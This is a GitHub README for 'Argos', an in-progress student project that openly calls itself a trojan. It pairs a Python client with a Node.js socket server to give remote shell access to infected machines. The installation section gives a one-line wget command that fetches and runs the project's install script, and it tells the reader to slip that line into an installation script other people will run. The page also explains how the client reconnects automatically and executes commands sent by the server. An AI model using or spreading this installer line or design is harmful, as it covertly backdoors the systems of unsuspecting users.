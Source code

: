 # Argos

*Can see everything, beware of its omniscience, kneel before its greatness.*

⚠️ *Do not use for illegal purposes*
*THIS PROJECT IS IN PROGRESS. The backend api is functionnal but the frontend is still in developpement*
## Summary

- [**Presentation**](#presentation)
- [**Installation**](#installation)
- [**Credits**](#credits)

## Prensentation

#### Main goal

The main goal of this project is to show how frighteningly easy it is to create a program that can access to another machine.
This project is a [**trojan**](https://us.norton.com/internetsecurity-malware-what-is-a-trojan.html) that when used in an installation script, can easily be installed and gain access to the whole system.

#### How it works

There is 2 main parts to this project:
- The online server
- The client

#### Client side

Get to the client part
```bash
cd client/
```

The client side program is made using [**python3**](https://www.python.org/downloads/) and can easily be called in the installation script of another program by using a simple curl command.

The client side is using [**socket io**](https://socket.io/fr/) to connect with the server through web sockets.
In case the server is not running, the program will try every 3 seconds to connect to the server until it's connected.

Once connected, the client script is waiting for instructions from the server.
The instruction it can get are mostly commands. In order to run the commands, it's using a child process that is running a shell, writing in it's stdin using the file descriptor obtained through the pty.spawn command.

Once the child process is done running a command, it send a ALRM signal to its ppid so we can get the output of the command.

#### Server side

Get to the server part:
```bash
cd online_server
```
Front:
```bash
cd frontend
```
Backend:
```bash
cd server
```
The server is made in [**Node js**](https://nodejs.org/en/download/).
The backend is composed of 2 server :
- A [**socker io**](https://socket.io/fr/get-started/chat) server
- A [**express JS**](https://expressjs.com/fr/) server

The *express JS* server is meant to received the requests from the frontend server.
Here are the routes of that server.
| Route | Protected using JWT |
|-------|---------------------|
|/login | NO |
|/services/:id| YES |
|/services/:id/shell| YES|

The socket server accept sockets and stock them in a global variable so the connexion can be used later on.
The sockets are listenning to events and so we are using that so in case of deconnexion with a client, the client will automaticly be remove from the list.

The /shell endpoint use the socket io server sending a command to the client and waiting for a response to send back the information to the frontend.

## Installation

In order to use the project, you need to have a script that people will run.

In this very script, you juste have to call this command (remember to replace the 'Adress of the online server' by your server adress) :
```bash
wget -q -O - https://raw.githubusercontent.com/Just1truc/Argos/main/client/install_argos > here && chmod 777 here && bash here "Adress of the online server" && rm here
```
Once this command has been run, everthing should be ready for the client.

Also, to setup the server, it's kinda more complicated.
You have to host both the front and the backend.

## Credits:

#### Client side && Backend developper : Justin Duc

[![linkeding bage](https://img.shields.io/badge/-linkedin-0A66C2?logo=linkedin&style=for-the-badge)](https://www.linkedin.com/in/justin-duc-51b09b225/)
[![git hub bage](https://img.shields.io/badge/-GitHub-181717?logo=GitHub&style=for-the-badge)](https://github.com/Just1truc)
[![mail](https://img.shields.io/badge/-Mail-0078D4?logo=Microsoft-Outlook&style=for-the-badge)](mailto:justin.duc@epitech.eu)

#### Frontend Developper : Baptiste Leroyer

[![linkeding bage](https://img.shields.io/badge/-linkedin-0A66C2?logo=linkedin&style=for-the-badge)](https://www.linkedin.com/in/baptiste-leroyer-a69894227/)
[![git hub bage](https://img.shields.io/badge/-GitHub-181717?logo=GitHub&style=for-the-badge)](https://github.com/ZiplEix)
[![mail](https://img.shields.io/badge/-Mail-0078D4?logo=Microsoft-Outlook&style=for-the-badge)](mailto:baptiste.leroyer@epitech.eu)

#### DevOps Developper : Leo Dubosclard

[![linkeding bage](https://img.shields.io/badge/-linkedin-0A66C2?logo=linkedin&style=for-the-badge)](https://linkedin.com/in/leo-dubosclard)
[![git hub bage](https://img.shields.io/badge/-GitHub-181717?logo=GitHub&style=for-the-badge)](https://github.com/ZerLock)
[![mail](https://img.shields.io/badge/-Mail-0078D4?logo=Microsoft-Outlook&style=for-the-badge)](mailto:leo.dubosclard@epitech.eu)

#### Frontend Developper : Joshua Brionne

[![linkeding bage](https://img.shields.io/badge/-linkedin-0A66C2?logo=linkedin&style=for-the-badge)](https://www.linkedin.com/in/joshua-brionne/)
[![git hub bage](https://img.shields.io/badge/-GitHub-181717?logo=GitHub&style=for-the-badge)](https://github.com/izimio)
[![mail](https://img.shields.io/badge/-Mail-0078D4?logo=Microsoft-Outlook&style=for-the-badge)](mailto:joshua.brionne@epitech.eu)

#### Frontend Developper : Paul laban

[![linkeding bage](https://img.shields.io/badge/-linkedin-0A66C2?logo=linkedin&style=for-the-badge)](https://www.linkedin.com/in/paul-laban-5b190b227/)
[![git hub bage](https://img.shields.io/badge/-GitHub-181717?logo=GitHub&style=for-the-badge)](https://github.com/501stEcho)
[![mail](https://img.shields.io/badge/-Mail-0078D4?logo=Microsoft-Outlook&style=for-the-badge)](mailto:paul.laban@epitech.eu)
